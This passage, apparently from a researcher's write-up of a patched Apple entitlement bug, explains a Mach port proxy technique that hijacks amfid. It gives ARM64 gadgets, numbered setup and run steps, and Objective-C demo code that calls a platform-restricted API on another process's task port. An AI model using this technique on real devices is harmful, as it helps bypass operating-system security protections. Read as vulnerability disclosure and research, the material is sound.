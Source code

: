        ```
       ;-- _xpc_service_instance_set_binpref:
       str w1, [x0, 0x1c]
       ret
       
       ;-- _xpc_service_instance_set_finalizer_f:
       str x1, [x0, 0x88]
       ret
       ```
8.  Proxy setup phase:
    1. `malloc` a working buffer.
    2. Make the other process call `mach_ports_lookup` on itself to get our task port and a send right to the proxy port.
    3. Since the other process can use our task port but not vice versa, make it call `mach_port_extract_right` with `MACH_MSG_TYPE_MOVE_RECEIVE` on us to move the receive right for the proxy port to its namespace.
9.  Proxy run phase:
    1. Send a message to the proxy port.
    2. Make the other process receive it.
    3. Make it extract the port from our namespace that we actually want to send the message to.
    4. Replace the destination port in the remote mach message.
    5. Make it re-send the message it received.
    6. Receive the reply on our end.
    7. Repeat.

There's slightly more to it in practice, e.g. you have to fix up the remote message because target and reply port get swapped when receiving, arm64e needs some manual fiddling with thread register values to satisfy PAC, and so on, but it's all very doable.

I'm not gonna past the entire implementation in this post, [check it out here][proxy] if you like.  
What I will paste here is only the demo code that calls an API that would normally require `TF_PLATFORM`, to demonstrate how beautifully simple it is to use:

```objc
void demo(void)
{
    // This is just setup
    volatile mach_port_t *realport;
    mach_port_t proxy = haxx("/usr/libexec/amfid", &realport);
    kern_return_t ret;
    task_t task;
    pid_t pid;
    posix_spawnattr_t att;
    posix_spawnattr_init(&att);
    posix_spawnattr_setflags(&att, POSIX_SPAWN_START_SUSPENDED);
    posix_spawn(&pid, "/usr/libexec/backboardd", NULL, &att, (char* const*)(const char*[]){ "/usr/libexec/backboardd", NULL }, (char* const*)(const char*[]){ NULL });
    posix_spawnattr_destroy(&att);
    task_for_pid(mach_task_self(), pid, &task);
    NSLog(@"task: 0x%x", task);

    // This is the task port we normally couldn't use.
#if 0
    // And now instead of this:
    ret = mach_ports_register(task, NULL, 0);
#else
    // We can do this:
    *realport = task;
    ret = mach_ports_register(proxy, NULL, 0);
#endif
    NSLog(@"mach_ports_register: %s", mach_error_string(ret));
}
```


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585
  [proxy]: https://github.com/Siguza/psychicpaper/blob/master/stuff/proxy.m